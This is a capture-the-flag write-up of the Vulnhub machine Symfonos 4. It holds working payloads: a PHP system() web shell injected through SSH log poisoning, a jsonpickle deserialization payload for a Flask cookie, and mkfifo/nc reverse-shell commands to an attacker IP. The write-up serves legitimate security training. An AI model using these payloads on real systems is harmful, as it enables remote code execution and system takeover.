 ```yaml
---
layout: post
title: Vulnhub - Symfonos 4 writeup
date: 2019-08-20 5:15 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-4,347/">Symfonos:4</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/sym4/nmap.png)

Only two ports are open. We'll just start with HTTP service.

***

## HTTP

![](images/sym4/website.png)

It's kinda similar to what we saw in symfonos 3.

I ran dirsearch on the website and found few pages.

![](images/sym4/dirsearch.png)

The only interesting pages were `atlantis.php` and `sea.php`. Atlantis.php contained a very simple form.

![](images/sym4/login.png)

I tried with basic password but it didn't worked. I tried to do some simple SQLi on the form but it didn't worked. We can run `SQLMAP` on this but that is not the right way to do it.(I know because I went down the rabbit hole)

In `sea.php` I found that the URL was something like `sea.php?file=zeus` so I tested it for LFI. I wasn't able to get the `/etc/passwd` file but it did gave the `auth.log` file.

![](images/sym4/log.png)

So we can follow [this](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) article to get a shell by poisioning SSH log.

All we have to do is run

```bash
$ ssh '<?php system($_GET['c']); ?>'@192.168.56.115
```

![](images/sym4/ssh-try.png)

Then run `msfconsole` and use `multi/script/web_delivery` and set options as said in the article I linked above.

![](images/sym4/options.png)

Then run this and copy the php command it gives. And run it in the browser like `sea.php?file=../../../../var/log/auth&c=<CMD>` and this will give you the shell.

![](images/sym4/meter-shell.png)

Since we had the shell now we can start looking in the system.

In `/var/www/html` folder I found creds for DB in source of `atlantis.php` file.

![](images/sym4/creds.png)

`root:yVzyRGw3cG2Uyt2r`

I used these to login in `mysql` and there I found creds for `admin` but it was hashed.

![](images/sym4/db-creds.png)

[@DCAU](https://twitter.com/DCAU7) told me that he already tried to crack the hash but couldn't. So I didn't even bother to go down that path.

I started looking around in the directories and found `/opt/code` which had a flask app code.

![](images/sym4/code.png)

If we run `ps aux` we'll be able to see that there is `app` running on `8080` as `root`.

![](images/sym4/aux.png)

We can use `socat` to forward that port and then visit it from our browser.

```bash
$ socat TCP-LISTEN:5689,fork,reuseaddr tcp:127.0.0.1:8080 &
```

![](images/sym4/app-website1.png)

And If we open `/whoami` we see

![](images/sym4/app-website.png)

Now let's take a look at the code to see what's going on

```python
cat app.py
from flask import Flask, request, render_template, current_app, redirect

import jsonpickle
import base64

app = Flask(__name__)

class User(object):

    def __init__(self, username):
        self.username = username


@app.route('/')
def index():
    if request.cookies.get("username"):
        u = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
        return render_template("index.html", username=u.username)
    else:
        w = redirect("/whoami")
        response = current_app.make_response(w)
        u = User("Poseidon")
        encoded = base64.b64encode(jsonpickle.encode(u))
        response.set_cookie("username", value=encoded)
        return response


@app.route('/whoami')
def whoami():
    user = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
    username = user.username
    return render_template("whoami.html", username=username)


if __name__ == '__main__':
    app.run()
```

There isn't much to read. We can see that it takes the cookie and see the username from it.

I googled flask pickle exploit and found [flask-json-pickle](https://github.com/VerSprite/flask-json-pickle). Even though this exact exploit didn't worked but we are sure how to do it now.

We can base64 encode the following string:

```python
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["./shell.sh"]}, null, null, null]}]}
```

Then Make a shell script in the `/opt/code` which will contain our reverse shell code:

```bash
$ echo "#!/bin/bash\nmkfifo /tmp/mylge; nc 192.168.56.1 1337 0</tmp/mylge | /bin/sh >/tmp/mylge 2>&1; rm /tmp/mylge" > shell.sh
```
Then `chmod +x shell.sh` the file so we can execute it.

Now we need to pass the base64 encoded string of that JSON to `username` in the cookie

```
eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiBbeyJweS9yZWR1Y2UiOiBbeyJweS90eXBlIjogInN1YnByb2Nlc3MuY2FsbCJ9LCB7InB5L3R1cGxlIjogWyIuL3NoZWxsLnNoIl19LCBudWxsLCBudWxsLCBudWxsXX1dfQ==
```

![](images/sym4/final-burp.png)


This will give us shell as root.

![](images/sym4/root-shell.png)

Then get the root flag.

![](images/sym4/root.png)

***

The foothold on this machine isn't hard even though it's kinda hard to ignore the red herring with login form on `atlantis.php` but once we see nothing works on this the only option left is `sea.php`.

The root part was very difficult for me because I kept on using something like

```python
{"py/object": "app.User", "username": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["nc -e /bin/sh 192.168.56.1 1337"]}, null, null, null]}
```
which wouldn't work and this frustated me and [@DCUA](https://twitter.com/DCAU7) but in the end [@4ndr34z](https://twitter.com/4nqr34z) saved us.

Thanks to [@zayotic](https://twitter.com/zayotic) for this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
